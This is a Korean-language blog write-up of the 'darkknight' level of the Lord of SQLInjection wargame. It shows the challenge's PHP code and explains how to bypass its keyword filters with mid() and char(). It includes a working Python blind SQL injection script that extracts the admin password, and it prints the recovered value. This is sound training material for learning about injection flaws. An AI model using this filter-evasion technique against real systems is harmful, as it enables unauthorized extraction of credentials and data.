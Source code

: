 ```yaml
---
layout: post
title: ! "[LOS] darkknight"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - darknight
  - write-up
---
```


### https://los.eagle-jump.org/ 버전
![]({{ site.baseurl }}/assets/posts/los/darkknight.png)

`query : select id from prob_darkknight where id='guest' and pw='' and no=`

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

darknight 문제는 substr, ascii가 필터링 된다.
기존 코드를 좀 수정해서

1. substr -> mid
2. ascii -> char

이렇게 바꿔주었다.

admin을 char함수로 표현하려면 `char(97,100,109,105,110)` 이 된다.

1. left : 문자의 왼쪽을 기준으로 일정 갯수를 가져온다.
2. mid : 문자의 지정한 시작 위치를 기준으로 일정 갯수를 가져온다.
3. right : 문자의 오른쪽을 기준으로 일정 갯수를 가져온다.

처음에 코드가 잘 안돌아갔는데 기존 코드는 string.ascii_letters를 이용해서 `for a in alpha` 이런식으로 돌게 했는데
이번 코드는 48부터 128까지 범위를 주고 `char(str(a))` 로 바꿔주었다.
출력을 할 때도 파이썬의 chr함수를 사용해 `chr(a)` 이렇게 출력해주었다.

### 코드
```php
from requests import get
import string
from time import sleep

url="https://los.eagle-jump.org/darkknight_~~~.php"
cookies = dict(PHPSESSID="세션 아이디")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""

for i in range(1,20):
    parameter = "?pw=1&no=1 || length(pw) like "+str(i)
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("Hello admin") > 0:
        length = i + 1
        print("password length is "+str(i))
        break
for i in range(1, length):
    for a in range(48,128):
        parameter ="?pw=1&no=1 || id like char(97,100,109,105,110) %26%26 mid(pw,"+str(i)+",1) like char("+str(a)+")"
        new_url = url + parameter
        r = get(new_url, cookies=cookies)

        if r.text.find("Hello admin") > 0:
            print(str(i) + " -> "+chr(a))
            result += chr(a)
            break

    if i == 1 and result == "":
        print("password not found")
        exit(0)

    if i == length-1:
        print("\npassword is"+result)
        print("\n")
```

![]({{ site.baseurl }}/assets/posts/los/darkknight_result.png)

결과대로 `1C62BA6F` 를 `?pw=1C62BA6F` 를 입력했는데 안돼서 뭐지..? 했는데
소문자로 바꿔서 입력하니 풀렸다.

![]({{ site.baseurl }}/assets/posts/los/darkknight_clear.png)


### https://los.rubiya.kr 버전
![]({{ site.baseurl }}/assets/posts/los/darkknight_py_result.png)

![]({{ site.baseurl }}/assets/posts/los/darkknight_py_clear.png)
